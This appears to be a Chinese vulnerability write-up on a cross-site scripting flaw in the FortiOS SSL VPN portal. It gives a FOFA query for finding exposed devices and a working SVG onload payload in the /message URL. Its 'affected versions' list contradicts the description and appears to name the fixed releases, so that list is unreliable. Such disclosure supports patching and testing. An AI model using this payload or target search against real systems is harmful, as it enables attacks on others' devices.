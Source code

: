 # Fortinet FortiOS message存在xss漏洞

# 一、漏洞简介
Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

# 二、影响版本
+ Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

# 三、资产测绘
+ fofa`app="FORTINET-SSLVPN"`
+ 特征

![1708092353453-aa4ebd52-c568-4244-9a91-8c5c81c9e9ec.png](./img/0z6DxK_7a53VYND6/1708092353453-aa4ebd52-c568-4244-9a91-8c5c81c9e9ec-153803.png)

# 四、漏洞复现
```java
/message?title=x&msg=%26%23<svg/onload=alert("xss")>;
```

![1708092676710-d70e54d3-4e63-4221-bde2-42a5a8c02563.png](./img/0z6DxK_7a53VYND6/1708092676710-d70e54d3-4e63-4221-bde2-42a5a8c02563-562975.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uvpivrra61yfuuzn>